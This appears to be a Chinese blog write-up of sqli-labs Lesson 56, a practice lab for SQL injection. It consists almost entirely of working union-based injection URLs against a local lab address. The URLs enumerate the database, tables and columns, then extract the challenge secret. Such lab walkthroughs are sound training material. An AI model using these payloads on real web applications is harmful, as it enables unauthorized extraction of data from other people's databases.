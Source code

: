 ```yaml
---
title: sqli-labs lession-56 GET-Union-变化3-仅允许14次请求
date: 2018-11-28 22:39:03
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-56 GET-Union-变化3-仅允许14次请求

---

## 手注

`http://192.168.75.133:8082/Less-56/?id=1')+order+by+3%23`

![001](/img/sql/Lesson-56/001.png)

`http://192.168.75.133:8082/Less-56/?id=-1')+union+select+1,(database()),user()%23`

![002](/img/sql/Lesson-56/002.png)

`http://192.168.75.133:8082/Less-56/?id=-1')+union+select+1,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),user()%23`

![003](/img/sql/Lesson-56/003.png)

`http://192.168.75.133:8082/Less-56/?id=-1')+union+select+1,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='vt405s3q0e'),user()%23`

![004](/img/sql/Lesson-56/004.png)

`http://192.168.75.133:8082/Less-56/?id=-1')+union+select+1,(select+GROUP_CONCAT(secret_F5AO)from challenges.vt405s3q0e),user()%23`

![005](/img/sql/Lesson-56/005.png)

提交

![006](/img/sql/Lesson-56/006.png)


